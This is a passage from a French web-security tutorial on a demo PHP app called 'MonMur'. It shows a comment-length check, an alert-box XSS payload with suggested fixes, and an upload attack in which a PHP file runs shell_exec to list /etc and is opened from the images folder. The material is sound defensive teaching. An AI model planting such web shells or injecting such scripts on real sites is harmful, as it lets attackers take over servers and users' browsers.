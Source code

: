 OU  

Afficher un message d'erreur que le commentaire est trop long :  
```
if(mb_strlen($_POST['commentaire']) <= 1000) {
  $commentaire = $_POST['commentaire'];
  enregistrerCommentaire($commentaire, $nom_image, utilisateurCourant());
  retourAuMur();
  exit();
} else {
    $erreur = 'Le commentaire est trop long. Veuillez réessayer.';
}
```

XSS :  

```
&lt;script>alert('Doh!')&lt;/script>
```

Comment corriger :  

- En enlevant les tags html complètement  
- En utilisant un module qui transforme le commentaire à l'affichage (voir ParseDown)  
- En utilisant un module qui fait du ménage sélectif (voir HTML purifier)  


## Téléversement de fichiers

L'application MonMur permet de téléverser des images pour les commentaires. Un pirate peut abuser de cette fonctionnalité pour injecter du code PHP dans le serveur pour en prendre possession.

Téléversons un fichier nommé __liste.php__ :  

```
&lt;html>&lt;body>
&lt;?php echo str_replace("\n", '&lt;br/>',shell_exec("ls /etc/"));?>
&lt;/body>&lt;/html>
```

MonMur copie les images dans le répertoire `/images`.  Donc, on peut maintenant exécuter le code dans la barre d'adresse : `http://192.168.2.222/images/liste.php`  

!!! figure "Résultat de liste.php"